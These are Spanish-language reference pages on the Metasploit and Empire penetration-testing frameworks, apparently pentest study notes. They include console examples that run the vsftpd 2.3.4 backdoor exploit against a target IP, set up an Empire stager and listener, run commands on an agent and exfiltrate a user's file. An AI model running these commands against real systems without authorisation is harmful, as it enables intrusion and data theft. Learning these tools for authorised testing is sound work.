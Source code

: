 ### **Frameworks/Metasploit_Framework/metasploit_framework.md**

# Metasploit Framework

## Descripción

`Metasploit Framework` es una plataforma de desarrollo y ejecución de exploits utilizada para pruebas de penetración y evaluación de seguridad. Ofrece una amplia base de datos de exploits, payloads y herramientas auxiliares para identificar y explotar vulnerabilidades en sistemas.

## Uso

```bash
msfconsole
```

### Comandos principales

- `search <termino>`: Busca módulos relacionados con el término.
- `use <módulo>`: Selecciona un módulo para usar.
- `show options`: Muestra las opciones configurables del módulo seleccionado.
- `set <opción> <valor>`: Configura una opción específica.
- `exploit`: Ejecuta el exploit seleccionado.

## Ejemplos

- **Buscar un exploit para Apache:**
  
  ```bash
  msf5 > search apache
  ```

- **Seleccionar y configurar un módulo:**
  
  ```bash
  msf5 > use exploit/unix/ftp/vsftpd_234_backdoor
  msf5 exploit(vsftpd_234_backdoor) > show options
  msf5 exploit(vsftpd_234_backdoor) > set RHOSTS 192.168.1.10
  msf5 exploit(vsftpd_234_backdoor) > exploit
  ```

- **Listar todos los payloads disponibles:**
  
  ```bash
  msf5 > show payloads
  ```

---

### **Frameworks/Empire/empire.md**

# Empire

## Descripción

`Empire` es un framework de post-explotación de código abierto para entornos Windows, macOS y Linux. Utiliza PowerShell y Python para proporcionar capacidades avanzadas de control remoto, exfiltración de datos y persistencia en sistemas comprometidos.

## Uso

```bash
./empire
```

### Comandos principales

- `listeners`: Gestiona los listeners para las conexiones entrantes.
- `agents`: Administra los agentes conectados a Empire.
- `modules`: Ejecuta módulos de post-explotación específicos.
- `use <módulo>`: Selecciona un módulo para usar.
- `execute <comando>`: Ejecuta un comando en el agente seleccionado.

## Ejemplos

- **Iniciar Empire y configurar un listener:**
  
  ```bash
  ./empire
  (Empire) listeners
  (Empire: listeners) > usestager windows/launcher_bat
  (Empire: listeners) > set ListenerName myListener
  (Empire: listeners) > execute
  ```

- **Interactuar con un agente:**
  
  ```bash
  (Empire) agents
  (Empire: agents) > interact <agent_id>
  (Empire: agent_id) > execute "whoami"
  ```

- **Ejecutar un módulo de exfiltración:**
  
  ```bash
  (Empire: agent_id) > use modules/exfiltration/file
  (Empire: modules/exfiltration/file) > set Agent <agent_id>
  (Empire: modules/exfiltration/file) > set SourcePath C:\Users\Usuario\documento.txt
  (Empire: modules/exfiltration/file) > execute
  ```
